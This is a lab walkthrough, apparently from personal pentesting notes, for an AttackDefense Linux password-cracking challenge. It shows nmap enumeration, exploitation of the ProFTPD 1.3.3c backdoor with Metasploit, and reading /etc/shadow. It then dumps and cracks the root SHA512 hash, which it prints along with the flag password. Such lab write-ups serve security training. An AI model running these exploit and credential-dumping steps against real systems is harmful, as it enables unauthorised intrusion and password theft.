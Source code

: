 # 🔬Hashes Dumping

## Lab 1

>  🔬 [Password Cracker: Linux](https://attackdefense.com/challengedetails?cid=1776)
>
>  - Target IP: `192.75.64.3`
>  - **Password Hashes** dumping - `/etc/shadow`

### Enumeration

```bash
ip -br -c a
	192.75.64.2/24
```

```bash
nmap -sV 192.75.64.3
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
MAC Address: 02:42:C0:4B:40:03 (Unknown)
Service Info: OS: Unix
```

```bash
searchsploit ProFTPD 1.3.3
```

![searchsploit ProFTPD 1.3.3](.gitbook/assets/image-20230323104830486.png)

### Exploitation

```bash
service postgresql start && msfconsole -q
```

- Postgresql is started to store all `metasploit` loot and sensitive information from the target machine - [Metasploit - PostgreSQL Workflows](https://docs.metasploit.com/docs/pentesting/metasploit-guide-postgresql.html)

```bash
setg RHOSTS 192.75.64.3
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
run
```

```bash
/bin/bash -i
```

![Metasploit proftpd_133c_backdoor](.gitbook/assets/image-20230323105525516.png)

- Upgrade the sessions to a `meterpreter` session

```bash
# background the session with CTRL+Z
sessions -u 1
sessions 2
```

![](.gitbook/assets/image-20230323105845671.png)

### Hashes Dumping

```bash
cat /etc/shadow
```

![cat /etc/shadow](.gitbook/assets/image-20230323105952352.png)

> 📌 `root`:`$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.`

- Gather Linux Password hashes with `Metasploit`

```bash
# background the session with CTRL+Z
search hashdump
use post/linux/gather/hashdump
set SESSION 2
run
```

```bash
[+] root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20230323100234_default_192.75.64.3_linux.hashes_660271.txt
```

- The *unshadowed password file* is a file containing the format hashed password, ready to be cracked.

### Crack the Hash

```bash
search crack
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

![Metasploit crack_linux](.gitbook/assets/image-20230323110756857.png)



<details>
<summary>Reveal Flag - "root" password is:  🚩</summary>



`password`

![](.gitbook/assets/image-20230323110859459.png)

</details>